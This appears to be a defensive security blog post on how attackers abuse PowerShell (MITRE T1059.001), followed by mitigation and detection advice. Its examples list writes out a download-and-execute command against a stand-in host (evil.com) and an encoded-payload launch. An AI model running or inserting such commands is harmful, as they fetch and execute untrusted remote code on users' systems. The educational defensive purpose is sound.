 ```yaml
---
layout: blog
title: PowerShell
---
```



<div id="main" class="s-content__main large-8 column">
<article class="entry">

<header class="entry__header">

<h2 class="entry__title h1">
    PowerShell
</h2>        
</header>

<div class="entry__content">

<p>PowerShell is a powerful command-line shell and scripting language designed for system administration and automation tasks. While it offers legitimate functionality, threat actors often abuse PowerShell for malicious purposes, making it a commonly observed technique in cyber attacks. The MITRE ATT&CK Framework has categorized the use of PowerShell for code execution as <a href="https://attack.mitre.org/techniques/T1059/001/">T1059.001</a>.</p>

<p>How Attackers Use PowerShell</p>

<p>Attackers leverage PowerShell for various malicious activities, including:
<ol>
<li>Code Execution: PowerShell can be used to execute malicious code, scripts, and payloads directly on the compromised system. This allows attackers to perform various actions, such as downloading and running malware, conducting reconnaissance, or carrying out lateral movement within the network.</li>
<li>Bypassing Security Controls: PowerShell scripts can be obfuscated or encrypted to evade detection by security solutions. Attackers may also leverage PowerShell's built-in cmdlets and functionality to perform actions that bypass security controls or achieve their objectives without triggering alerts.</li>
<li>Living Off the Land Binaries (LOLBins): PowerShell is a legitimate system tool, making it a prime example of a Living Off the Land Binary (LOLBin). Attackers can use PowerShell to perform malicious activities while blending in with normal system operations, making detection more challenging.</li>
<li>Persistence and Lateral Movement: PowerShell can be used to create persistent mechanisms, such as scheduled tasks or services, ensuring that malicious code runs automatically upon system reboot or at predetermined intervals. Additionally, attackers can leverage PowerShell remoting to move laterally within the network and execute commands on remote systems.</li>
</ol></p>
<p>Examples of Malicious PowerShell Usage:
<ul>
<li>Downloading and executing malware: <code>IEX (New-Object Net.WebClient).DownloadString('https://evil.com/malware.ps1')</code></li>
<li>Conducting reconnaissance: <code>Get-Process | Select-Object -Property ProcessName, Id</code></li>
<li>Launching an encoded PowerShell payload: <code>powershell.exe -enc JABhAD...</code></li>
<ul></p>
<p>Mitigating PowerShell Attacks</p>

<p>To mitigate the risks associated with PowerShell abuse, consider implementing the following measures:
<ol>
<li>PowerShell Logging: Enable comprehensive PowerShell logging to capture and monitor PowerShell activity, including script block logging and transcription. This can help detect and investigate potential PowerShell-based attacks.</li>
<li>PowerShell Constrained Language Mode: Configure PowerShell to run in Constrained Language Mode, which restricts the usage of certain cmdlets and language elements, reducing the attack surface.</li>
<li>Application Whitelisting: Implement application whitelisting to allow only approved applications and scripts to run, effectively blocking unauthorized or malicious PowerShell scripts.</li>
<li>PowerShell Execution Policy: Set an appropriate PowerShell execution policy to restrict the execution of scripts from untrusted sources or locations.</li>
<li>User Training: Educate users about the risks of running untrusted PowerShell scripts and the importance of following security best practices when using PowerShell.</li>
<li>Endpoint Detection and Response (EDR): Deploy an EDR solution capable of monitoring and detecting suspicious PowerShell activity, such as the execution of obfuscated or encoded scripts, and blocking or terminating malicious processes.</li>
</ol></p>
<p>Detecting PowerShell</p>

<p>Detecting PowerShell abuse can be challenging due to its legitimate use within organizations. However, you can look for the following indicators:
<ol>
<li>Suspicious PowerShell Commands: Monitor for PowerShell commands that download and execute external scripts, encode or obfuscate code, or perform reconnaissance or lateral movement activities.</li>
<li>Encoded or Obfuscated Scripts: Analyze PowerShell scripts for signs of encoding, obfuscation, or other techniques used to evade detection.</li>
<li>Unusual PowerShell Process Behavior: Look for PowerShell processes spawning child processes, making network connections, or exhibiting other anomalous behavior.</li>
<li>PowerShell Logging: Review PowerShell logs for suspicious activity, such as the execution of untrusted scripts or the use of potentially malicious cmdlets.</li>
<li>Security Information and Event Management (SIEM): Configure your SIEM solution to alert on known PowerShell-based attack patterns or anomalous PowerShell activity.</li>
</ol></p>
<p>By understanding how attackers abuse PowerShell and implementing appropriate mitigation and detection measures, organizations can better protect themselves against PowerShell-based attacks and maintain a more secure environment.</p>

<p><a href="../25/MITRE_Att&ck_Intro.html">Most Common MITRE Att&ck Techniques</a></p>

</div>
</article> <!-- end entry -->

</div> <!-- end main -->  